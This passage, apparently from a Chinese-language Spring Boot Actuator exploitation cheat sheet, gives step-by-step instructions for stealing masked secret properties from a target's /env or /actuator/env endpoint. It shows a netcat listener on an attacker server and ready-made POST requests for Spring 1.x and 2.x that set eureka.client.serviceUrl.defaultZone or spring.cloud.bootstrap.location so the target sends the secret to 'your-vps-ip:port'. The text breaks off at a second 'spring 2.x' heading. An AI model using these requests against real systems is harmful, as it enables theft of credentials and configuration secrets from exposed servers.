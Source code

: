 

###### 利用方法

**步骤一:确定属性名**

访问目标网站的/env或/actuator/env端点接口，全局搜索星号(*************)，通过被星号遮掩的属性值找到想要的目标属性



**步骤二： 使用 nc 监听 HTTP 请求**

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvvp 80
```



**步骤三：  触发对外 http 请求**

`eureka.client.serviceUrl.defaultZone=http://value:${属性}@your-vps-ip:port`  

`属性`替换为想要获取的目标属性

`your-vps-ip` 换成自己外网服务器的真实 ip 地址

`port`为前面监听的端口



- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${属性}@your-vps-ip:port
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${属性}@your-vps-ip:port"}
```



- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip:port/?=${属性}
```

spring 2.x
